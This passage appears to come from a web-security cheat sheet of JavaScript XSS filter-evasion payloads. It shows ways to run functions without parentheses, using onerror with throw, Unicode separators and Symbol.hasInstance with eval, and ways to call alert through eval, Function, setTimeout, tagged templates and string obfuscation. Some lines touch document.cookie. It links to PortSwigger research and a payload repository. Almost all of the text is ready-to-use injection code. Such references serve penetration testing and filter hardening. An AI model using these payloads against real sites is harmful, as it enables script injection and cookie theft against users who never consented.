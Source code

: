 ```javascript
onerror=alert //No ";" using new line
throw 1337
  // Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337");
  // Error handler + Comma separator
  // The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
  // optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
  // The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.

```

- [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
- [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Arbitrary function (alert) call**

```javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
```